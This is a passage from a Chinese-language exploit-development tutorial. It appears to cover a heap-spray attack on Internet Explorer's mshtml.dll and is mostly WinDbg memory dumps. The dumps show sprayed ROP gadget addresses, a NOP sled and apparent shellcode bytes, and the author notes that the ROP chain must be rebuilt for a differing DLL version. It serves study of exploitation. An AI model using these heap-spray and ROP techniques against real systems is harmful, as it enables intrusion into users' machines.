079f7368 e0 4f 8c e3 76 4f b0 81 e2 2d ba 35 bb 86 f8 67 0c 8d 90 91 74 75 71 7f 3c 7d 15 9f 47 b3 0b d5  .O..vO...-.5...g....tuq.<}..G...
079f7388 4e 78 70 49 37 1b ff c1 fe c6 c7 c0 d4 b6 46 92 b1 b4 88 f5 1d a9 4b 7c 48 25 99 7a 3d 9b b7 01  NxpI7.........F.......K|H%.z=...
079f73a8 eb 34 b5 1c a8 38 fc b8 09 d6 4a be 14 97 21 e1 04 b9 b2 42 96 77 24 69 f9 80 fd 0d 2c 41 05 2f  .4...8....J...!....B.w$i....,A./
079f73c8 3f 27 40 bf 93 98 43 73 79 66 a8 77 3f b6 72 74 7b 70 3d 84 d2 eb 30 f6 d5 bf b2 71 7a 75 48 18  ?'@...Csyf.w?.rt{p=...0....qzuH.
```

查看我们的目标地址属于哪个堆块，可以看到属于`04184fe0`
```
0:013> !heap -p -a 0x079f6da8 
    address 079f6da8 found in
    _HEAP @ 3c0000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
invalid allocation size, possible heap corruption
        04184fe0 61a10f6 0000  [00]   04184fe8    30d05882 - (busy VirtualAlloc)
```

由于我们现在没有准确击中我们设定的地址，那么就得重新思考原因，我再次读了一遍泉哥的堆喷代码，我发现泉哥使用的并不是我所使用的目标地址，而是使用`0x07070024`，我们查看这个地址的数据，惊喜的发现，这个地址的数据和我们期待的是一样的
```
07070024 31 10 38 65 78 2c 38 65 e3 b4 39 65 8b 2c 6d 65 40 13 38 65 de 4a 4a 65 3e f9 42 65 9c 5a 7d 65  1.8ex,8e..9e.,me@.8e.JJe>.Be.Z}e
07070044 8d 8b 4a 65 36 14 3e 65 01 00 00 00 a3 d8 8a 65 00 10 00 00 70 36 38 65 40 00 00 00 3d 26 55 65  ..Je6.>e.......e....p68e@...=&Ue
07070064 ac 32 38 65 9f 2c 6d 65 90 90 90 90 05 e8 8a 65 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  .28e.,me.......e................
07070084 90 90 90 90 00 00 00 00 b0 40 4b 41 24 1d a8 b4 99 77 37 be 47 a9 1a d4 3f 35 30 eb 33 d1 e1 2a  .........@KA$....w7.G...?50.3..*
070700a4 e0 31 d3 e2 14 15 13 fd 97 34 7b 7a 39 fc ba 92 90 93 4e 0a f5 bb b2 8d 85 e3 23 f8 3a d5 48 04  .1.......4{z9.....N.......#.:.H.
070700c4 0d 75 32 d6 7c 70 42 46 78 7e 2c b1 98 2f 3c 1c 7e 72 7b 3b e0 4f 8c e3 76 4f b0 81 e2 2d ba 35  .u2.|pBFx~,../<.~r{;.O..vO...-.5
070700e4 bb 86 f8 67 0c 8d 90 91 74 75 71 7f 3c 7d 15 9f 47 b3 0b d5 4e 78 70 49 37 1b ff c1 fe c6 c7 c0  ...g....tuq.<}..G...NxpI7.......
07070104 d4 b6 46 92 b1 b4 88 f5 1d a9 4b 7c 48 25 99 7a 3d 9b b7 01 eb 34 b5 1c a8 38 fc b8 09 d6 4a be  ..F.......K|H%.z=....4...8....J.
07070124 14 97 21 e1 04 b9 b2 42 96 77 24 69 f9 80 fd 0d 2c 41 05 2f 3f 27 40 bf 93 98 43 73 79 66 a8 77  ..!....B.w$i....,A./?'@...Csyf.w
07070144 3f b6 72 74 7b 70 3d 84 d2 eb 30 f6 d5 bf b2 71 7a 75 48 18 f5 0c b7 96 89 f8 4a 76 2d 9b b0 92  ?.rt{p=...0....qzuH.......Jv-...
07070164 be 66 97 7d 25 b4 14 91 04 49 34 ba 1c 42 08 e3 02 f9 40 41 73 47 27 0d b5 93 99 22 d4 1d 4f 7c  .f.}%....I4..B....@AsG'...."..O|
07070184 67 28 fc 98 24 2c 12 e2 03 fd a9 78 05 35 90 83 e0 2f 37 43 4b 15 8d 46 b9 79 7f 29 d6 bb 7e 19  g(..$,.....x.5.../7CK..F.y.)..~.
070701a4 e1 4e b8 9f b3 b1 3c 4a 7d 7a 79 76 70 46 91 20 e1 74 43 b0 71 4e 90 b5 b7 75 3c 98 b3 4b 87 d6  .N....<J}zyvpF. .tC.qN...u<..K..
070701c4 6b f8 40 9b 7f 11 f7 d1 f9 7b 2f 15 27 34 92 1d 97 3d 49 2d 0d 72 4f 01 e0 7c 05 31 eb 10 f5 35  k.@......{/.'4...=I-.rO..|.1...5
070701e4 b6 b4 2c 1c b2 93 04 47 2b d5 b1 bb 89 e3 37 41 78 7e 3f 73 42 77 25 29 d0 fc 24 66 ba 8d b9 67  ..,....G+.....7Ax~?sBw%)..$f...g
07070204 96 1a fd a8 be a9 0b d4 99 48 14 9f bf 87 f7 e2 0c b8 3d 90 b0 14 bb 25 96 7d 7f 1a f5 79 09 f8  .........H........=....%.}...y..
07070224 7c 34 91 7b 47 4e 81 eb 22 e1 1b d4 74 70 1d b2 72 2d 8d 92 b1 b3 05 a9 b4 71 0c 4b 43 93 76 0d  |4.{GN.."...tp..r-.......q.KC.v.
07070244 9f 98 b5 84 d5 b7 66 46 40 be bf b8 1c 20 e2 48 73 4a 2c 6b fc 2a e0 04 41 49 77 37 ba 10 d6 7e  ......fF@.... .HsJ,k.*..AIw7...~
07070264 2f 33 fd b9 9b 7a 75 78 15 24 99 12 d2 f9 97 3f 3c b6 67 35 a8 27 86 e3 42 77 73 4f 80 e3 3c a9  /3...zux.$.....?<.g5.'..BwsO..<.
07070284 7c 75 2b f6 c0 d0 e0 27 4b 21 d3 e1 3f b9 7d 15 14 8c c1 e2 04 99 98 74 71 70 37 66 28 eb 1c 4e  |u+....'K!..?.}........tqp7f(..N
070702a4 b6 7f 7b 35 97 32 d4 25 69 f5 05 91 47 40 24 02 d6 78 41 79 3d ba b1 49 76 72 2f 1d bf 85 fc 67  ..{5.2.%i...G@$..xAy=..Ivr/....g
070702c4 92 7e 2c 4a b4 7a 48 13 d5 93 9b 8d bb 03 fd 74 79 08 e1 43 83 e0 73 18 e3 46 72 23 f8 b2 b0 88  .~,J.zH........ty..C..s..Fr#....
070702e4 f9 b8 9f 96 b5 75 0c 77 42 7b 2d b7 a8 7a 19 e2 38 eb 34 b3 be 90 7e 4f 7f 0d b6 b3 76 30 f5 bf  .....u.wB{-..z..8.4...~O....v0..
07070304 9f 47 67 71 0a d4 7c 3b fc 66 b7 41 15 96 fd 3d 05 35 25 b8 7d 1c 4a b5 40 39 d6 37 92 3f 1d 97  .Ggq..|;.f.A...=.5%.}.J.@9.7.?..
07070324 78 14 49 8d b2 a8 93 34 3c 2c 2f 90 4f d5 a9 04 98 11 f8 91 9b b9 43 99 b1 bb 70 0d 24 48 0c 4b  x.I....4<,/.O.........C...p.$H.K
07070344 4e be 2d b0 3a f9 ba 27 46 b4 42 db d1 d9 74 24 f4 5a 29 c9 b1 49 be 8c 4a c0 a0 31 72 19 83 c2  N.-.:..'F.B...t$.Z)..I..J..1r...
07070364 04 03 72 15 6e bf 3c 48 e7 40 bd 89 97 c9 58 b8 85 ae 29 e9 19 a4 7c 02 d2 e8 94 91 96 24 9a 12  ..r.n.<H.@....X...)...|......$..
07070384 1c 13 95 a3 91 9b 79 67 b0 67 80 b4 12 59 4b c9 53 9e b6 22 01 77 bc 91 b5 fc 80 29 b4 d2 8e 12  ......yg.g...YK.S..".w.....)....
070703a4 ce 57 50 e6 64 59 81 57 f3 11 39 d3 5b 82 38 30 b8 fe 73 3d 0a 74 82 97 43 75 b4 d7 0f 48 78 da  .WP.dY.W..9.[.80..s=.t..Cu...Hx.
070703c4 4e 8c bf 05 25 e6 c3 b8 3d 3d b9 66 c8 a0 19 ec 6a 01 9b 21 ec c2 97 8e 7b 8c bb 11 a8 a6 c0 9a  N...%...==.f....j..!....{.......
070703e4 4f 69 41 d8 6b ad 09 ba 12 f4 f7 6d 2b e6 50 d1 89 6c 72 06 ab 2e 1b eb 81 d0 db 63 92 a3 e9 2c  OiA.k......m+.P..lr........c...,
07070404 08 2c 42 a4 96 ab a5 9f 6e 23 58 20 8e 6d 9f 74 de 05 36 f5 b5 d5 b7 20 19 86 17 9b d9 76 d8 4b  .,B.....n#X .m.t..6.... .....v.K
07070424 b1 9c d7 b4 a1 9e 3d dd 4b 64 d6 22 23 67 43 cb 31 68 9a 57 bc 8e f6 77 e8 19 6f e1 b1 d2 0e ee  ......=.Kd."#gC.1h.W...w..o.....
07070444 6c 9f 11 64 82 5f df 8d ef 73 88 7d ba 2e 1f 81 11 44 a0 17 9d cf f7 8f 9f 36 3f 10 60 1d 4b 99  l..d._...s.}.....D.......6?.`.K.
07070464 f4 de 24 e6 18 df b4 b0 72 df dc 64 26 8c f9 6a f3 a0 51 ff fb 90 06 a8 93 1e 70 9e 3c e0 57 1e  ..$.....r..d&..j..Q.......p.<.W.
07070484 01 37 9e a4 73 3d f2 64
                                 31 10 38 65 78 2c 38 65 e3 b4 39 65 8b 2c 6d 65 40 13 38 65 de 4a 4a 65  .7..s=.d1.8ex,8e..9e.,me@.8e.JJe
070704a4 3e f9 42 65 9c 5a 7d 65 8d 8b 4a 65 36 14 3e 65 01 00 00 00 a3 d8 8a 65 00 10 00 00 70 36 38 65  >.Be.Z}e..Je6.>e.......e....p68e
070704c4 40 00 00 00 3d 26 55 65 ac 32 38 65 9f 2c 6d 65 90 90 90 90 05 e8 8a 65 90 90 90 90 90 90 90 90  @...=&Ue.28e.,me.......e........
070704e4 90 90 90 90 90 90 90 90 90 90 90 90 00 00 00 00 b0 40 4b 41 24 1d a8 b4 99 77 37 be 47 a9 1a d4  .................@KA$....w7.G...
07070504 3f 35 30 eb 33 d1 e1 2a e0 31 d3 e2 14 15 13 fd 97 34 7b 7a 39 fc ba 92 90 93 4e 0a f5 bb b2 8d  ?50.3..*.1.......4{z9.....N.....
07070524 85 e3 23 f8 3a d5 48 04 0d 75 32 d6 7c 70 42 46 78 7e 2c b1 98 2f 3c 1c 7e 72 7b 3b e0 4f 8c e3  ..#.:.H..u2.|pBFx~,../<.~r{;.O..
07070544 76 4f b0 81 e2 2d ba 35 bb 86 f8 67 0c 8d 90 91 74 75 71 7f 3c 7d 15 9f 47 b3 0b d5 4e 78 70 49  vO...-.5...g....tuq.<}..G...NxpI
07070564 37 1b ff c1 fe c6 c7 c0 d4 b6 46 92 b1 b4 88 f5 1d a9 4b 7c 48 25 99 7a 3d 9b b7 01 eb 34 b5 1c  7.........F.......K|H%.z=....4..
07070584 a8 38 fc b8 09 d6 4a be 14 97 21 e1 04 b9 b2 42 96 77 24 69 f9 80 fd 0d 2c 41 05 2f 3f 27 40 bf  .8....J...!....B.w$i....,A./?'@.
070705a4 93 98 43 73 79 66 a8 77 3f b6 72 74 7b 70 3d 84 d2 eb 30 f6 d5 bf b2 71 7a 75 48 18 f5 0c b7 96  ..Csyf.w?.rt{p=...0....qzuH.....
070705c4 89 f8 4a 76 2d 9b b0 92 be 66 97 7d 25 b4 14 91 04 49 34 ba 1c 42 08 e3 02 f9 40 41 73 47 27 0d  ..Jv-....f.}%....I4..B....@AsG'.
070705e4 b5 93 99 22 d4 1d 4f 7c 67 28 fc 98 24 2c 12 e2 03 fd a9 78 05 35 90 83 e0 2f 37 43 4b 15 8d 46  ..."..O|g(..$,.....x.5.../7CK..F
07070604 b9 79 7f 29 d6 bb 7e 19 e1 4e b8 9f b3 b1 3c 4a 7d 7a 79 76 70 46 91 20 e1 74 43 b0 71 4e 90 b5  .y.)..~..N....<J}zyvpF. .tC.qN..
07070624 b7 75 3c 98 b3 4b 87 d6 6b f8 40 9b 7f 11 f7 d1 f9 7b 2f 15 27 34 92 1d 97 3d 49 2d 0d 72 4f 01  .u<..K..k.@......{/.'4...=I-.rO.
07070644 e0 7c 05 31 eb 10 f5 35 b6 b4 2c 1c b2 93 04 47 2b d5 b1 bb 89 e3 37 41 78 7e 3f 73 42 77 25 29  .|.1...5..,....G+.....7Ax~?sBw%)
```

我们跳到`0x07070024`，查看这个地址的代码是否和我们设定的一样，因为不同版本的`mshtml.dll`可能指令存在一些偏差，很明显，这个代码并不是我们所期待的
```
07070024 3110            xor     dword ptr [eax],edx
07070026 386578          cmp     byte ptr [ebp+78h],ah
07070029 2c38            sub     al,38h
0707002b 65e3b4          jecxz   0706ffe2
0707002e 39658b          cmp     dword ptr [ebp-75h],esp
07070031 2c6d            sub     al,6Dh
07070033 6540            inc     eax
```

所以，我们需要重新生成ROP链

鉴于篇幅原因，绕过DEP的ROP构造，我们放到下一篇文章

## Reference
- https://paper.seebug.org/179/
- https://paper.seebug.org/182/
- https://bbs.pediy.com/thread-225252.htm
- https://www.exploit-db.com/exploits/24017/
- https://www.cnblogs.com/Ox9A82/p/5718211.html
- https://bbs.pediy.com/thread-202089.htm
- https://blog.csdn.net/qq_35519254/article/details/53179998?locationNum=10&fps=1
- https://blog.csdn.net/instruder/article/details/7836895
- https://www.anquanke.com/post/id/87048
- http://c00c.cc/1493200282.html
- https://bbs.pediy.com/thread-207158.htm

